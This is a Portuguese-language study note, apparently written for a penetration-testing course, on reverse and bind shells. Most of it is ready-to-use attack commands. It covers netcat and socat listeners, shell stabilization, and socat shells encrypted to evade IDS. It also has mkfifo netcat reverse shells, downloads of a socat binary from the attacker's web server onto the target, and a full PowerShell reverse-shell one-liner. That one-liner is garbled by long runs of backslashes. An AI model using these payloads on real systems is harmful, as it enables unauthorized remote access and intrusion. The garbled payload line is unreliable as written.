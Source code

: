 ## Reverse shells
quando o alvo é obrigado a executar um código que conecta de volta à máquina atacante. Antes disso, o atacante deve criar um listener.  Reverse shells são uma boa forma de passar pelas regras de firewall que podem impedir que você conecte arbitrariamente às portas do alvo. A desvantagem é que a sua rede deve estar configurada para aceitar a shell.

sintaxe para começar um listener no linux:
- ```nc -lvnp <port-number>```
	- l marca como listener
	- v verbose
	- n netcat não vai usar host names nem DNS
	- p indica que a porta vem em seguida
- É uma boa ideia usar portas como: 80,443,53 por serem mais fáceis de passar pelo firewall do alvo

## Bind shells
São quando o código executado no alvo é usado para iniciar um listener conectado diretamente à uma shell no alvo. Pode-se conectar a ela pela internet. O lado negativo é que o firewall pode atrapalhar.

sintaxe para conectar a um listener:
``nc <target-ip> <chosen-port>``

Elas podem ser:
- interativas: Permitem que você interaja com o programa depois de executa-lo
- não-interativas: Não permitem que você interaja com o programa depois de executa-lo

## Estabilização
Netcat shells costumam ser bem instáveis, já que são processos rodando dentro de um terminal ao invés de terminais genuínos. Então, desenvolveram-se técnicas para estabilizar essas shells.

### Python
Funciona apenas em linux porque praticamente todas tem python instalado por padrão.
1. ```python -c 'import pty;pty.spawn("/bin/bash")'``` : Usa o python para instalar uma shell um pouco melhor
2. ``export TERM=xterm`` da acesso a comandos term como: clear
3. Background the shell com ctrl + Z e usa ``stty raw -echo; fg``: isso da acesso a autocomplete, setas e crtl + C para matar processos e ai coloca a shell em primeiro plano
Obs: se a shell morrer não vai aparecer no terminal pois o echo foi desativado. Para resolver digite ``reset`` e aperte enter

### rlwrap
programa feito para dar acesso a comandos do terminal, como histórico, tab autocompletion e setas. Ainda não funciona o crtl + C dentro do terminal.
1. instala o rlwrap com ``sudo apt install rlwrap``
2. o listener tem que ser invocado com: ``rlwrap nc -lvnp <port>``
3. Ctrl + Z e ``stty raw -echo; fg`` estabiliza e entra novamente na shell, possibilite o uso de crtl + C pra matar processos

### Socat
Para alcançar essa estabilização primeiro precisamos transmitir um binário socat estático compilado para a máquina alvo. Uma forma simples de alcançar isso é utilizando um webserver na máquina atacante dentro do diretório que já contém o binário compilado
1. ``sudo python3 -m http.server 80`` inicia o servidor na máquina atacante
2. ``wget <LOCAL-IP>/socat -O /tmp/socat`` na máquina alvo, pelo shell netcat, baixe o arquivo. No exemplo usamos wget, mas pode ser o curl

Em um ambiente windows o mesmo pode ser feito com uma powershell utilizando Invoke-WebRequest ou webrequest dependendo da versão do powershell instalada. 
1. ``Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe``

O socat faz a ligação entre 2 pontos quaisquer.
#### Reverse Shells
Reverse shell listener básico em um socat
``socat TCP-L:<port> -``

No windows (alvo):
``socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes``

No linux (alvo):
``socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"``

#### Bind Shells

No linux (alvo):
``socat TCP-L:<PORT> EXEC:"bash -li"``

No windows (alvo):
``socat TCP-L:<PORT> EXEC:powershell.exe,pipes``

Na máquina atacante:
``socat TCP:<TARGET-IP>:<TARGET-PORT> -``

#### técnica mais estável
Essa só funciona em linux.

Sintaxe do listener:
``socat TCP-L:<port> FILE:`tty`,raw,echo=0``

Use esse comando na máquina alvo:
``socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane``

- **pty:** aloca um pseudo terminal na máquina -- parte do processo de atualização
- **stderr:** todos os erros mostram na shell
- **sigint:** Crtl + C pode ser usado para matar processos
- **setsid:** cria um processo na nova questão
- **sane:** estabelece o terminal
#### Encrypted Shells
Podem ser criadas shells encriptadas para passar IDS.

Precisamos gerar um certificado para criar shells encriptadas.
``openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt``
Esse comando gera uma chave RSA com 2048 bits valido por um ano. Precisamos combinar os dois arquivos em um único ``.pem`` file:
``cat shell.key shell.crt > shell.pem``

Para setar a reverse shell podemos usar:
``socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -``

Para conectar de volta:
``socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash``

##### Para bind
alvo:
``socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes``

Atacante:
``socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -``

### Outros pontos
Com qualquer uma das técnicas acima, é útil mudar o tamanho do seu terminal tty (_teletypewriter_).
1. ``stty -a``
2. ``stty rows <number>``
3. ``stty cols <number>``

## Common Shell Payloads
Em algumas verões do netcat (inclindo o nc.exe windows versão incluida no kali em ``/usr/share/windows-resources/binaries`` e a versão usada no kali ``netcat-traditional``) tem a opção ``-e``  que permite executar o processo na conexão. Por exemplo no listener:
``nc -lvnp <PORT> -e /bin/bash``
Conectar no listener acima com o netcat resulta em uma bind shell no alvo.

igualmente pra uma reverse shell:
``nc <LOCAL-IP> <PORT> -e /bin/bash``
(geralmente não é incluída na maior parte das versões do netcat por ser considerado inseguro).  Isso funciona perfeitamente no windows, pois o binário é necessário de qualquer forma.

no linux usamos:
``mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``

The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

Para uma reverse shell:
``mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``

Para um windows server moderno, geralmente é requerido uma Powershell, para isso use:
``powershell\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\ -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII)\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\.GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"``


[PayloadsAllTheThings/Methodology and Resources/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)











